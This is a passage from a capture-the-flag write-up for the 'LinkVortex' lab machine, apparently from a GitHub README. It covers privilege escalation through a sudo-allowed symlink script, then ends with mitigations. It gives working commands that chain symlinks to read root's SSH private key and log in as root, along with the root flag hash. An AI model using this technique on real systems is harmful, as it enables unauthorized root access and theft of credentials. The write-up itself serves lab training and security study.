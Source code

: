 ## 5. Privilege Escalation
### 🔹 5.1 Sudo Rights
```bash
bob@linkvortex:~$ sudo -l
(ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
### 🔹 5.2 Vulnerable Script Breakdown
- Accepts one argument: a `.png` file
- Checks if it’s a symlink
- Rejects links pointing to `/etc` or `/root` directly
- Displays content if `CHECK_CONTENT=true` is set
### 🔹 5.3 Symlink Chain Bypass
```bash
ln -s /root/.ssh/id_rsa id_rsa.txt
ln -s /home/bob/id_rsa.txt id_rsa.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh id_rsa.png
```
---
## 6. Root Access
- Private key saved to `id_rsa_root`
- Root shell gained via:
```bash
chmod 600 id_rsa_root
ssh -i id_rsa_root root@10.10.11.47
root@linkvortex:~# cat root.txt 
	7ca5d24ecd7009c4c92bc7c591e3c577 
```
---
### 7. AutoPWN Privilege Escalation Script
- Script `autopwn_root.py` automates the entire  privilege escalation, more info -> [Autopwn LinkVortext](https://github.com/maikneysm/AutoPwn-LinkVortex.htb/blob/main/readme.md)
- Uses `paramiko` to connect as `bob`, extract the root SSH private key, and spawn an interactive root shell
---
### 8. Mitigations
- Never expose `.git` directories in production
- Do not hardcode credentials in test or production code
- Avoid giving `sudo` access to scripts processing user-controlled symlinks
- Whitelist explicitly safe file paths instead of weak blacklist patterns
